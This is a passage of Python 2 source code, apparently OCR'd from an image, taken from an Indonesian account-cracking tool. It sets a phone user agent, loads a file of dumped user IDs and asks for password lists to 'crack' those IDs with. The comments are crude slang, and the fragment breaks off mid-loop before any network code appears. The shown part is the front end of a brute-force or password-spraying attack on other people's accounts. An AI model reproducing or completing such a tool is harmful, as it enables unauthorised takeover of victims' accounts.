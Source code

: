         _agen_ = raw_input(' [%s?%s] masukan user agent hp anda :%s '%(O,N,H))

        open('YNTKTS.txt', 'w').write(_agen_);time.sleep(2)

        jalan('\n %s[%s✓%s] berhasil menggunakan user agent hp anda...'%(N,H,N))

        raw_input('\n  %s[ %skembali%s ]'%(N,O,N));moch_yayan()

    elif _asu_ in['T','t']:

        _agen_ = raw_input(' [%s?%s] masukan user agent :%s '%(O,N,H))

        open('YNTKTS.txt', 'w').write(_agen_);time.sleep(2)

        jalan('\n %s[%s✓%s] berhasil mengganti user agent...'%(N,H,N))

        raw_input('\n  %s[ %skembali%s ]'%(N,O,N));moch_yayan()

    else:

        print '\n %s[%s!%s] Y/t ngentod'%(N,M,N);yo_ndak_tau_ko_tanya_saia()

# mulai ngecrot awokawokawokkawok

class __crack__:

    def __init__(self):

        self.id = []

    def plerr(self):

        try:

            self.apk = raw_input('\n [%s?%s] masukan file : '%(O,N))

            self.id = open(self.apk).read().splitlines()

            print '\n [%s+%s] total id -> %s%s%s' %(O,N,M,len(self.id),N)

        except:

            print '\n %s[%s×%s] File [%s%s%s] tidak ada, dump id dulu bro cek nomor 1 sampai 4'%(N,M,N,M,self.apk,N);time.sleep(3)

            raw_input('\n  %s[ %skembali%s ]'%(N,O,N));moch_yayan()

        ___yayanganteng___ = raw_input(' [%s?%s] apakah anda ingin menggunakan kata sandi manual? [Y/t]: '%(O,N))

        if ___yayanganteng___ in ('Y', 'y'):

            print '\n %s[%s!%s] gunakan , (koma) untuk pemisah contoh : sandi123,sandi12345,dll. setiap kata minimal 6 karakter atau lebih'%(N,M,N)

            while True:

                pwek = raw_input('\n [%s?%s] masukan kata sandi : '%(O,N))

                print ' [*] crack dengan sandi -> [ %s%s%s ]' % (M, pwek, N)

                if pwek == '':
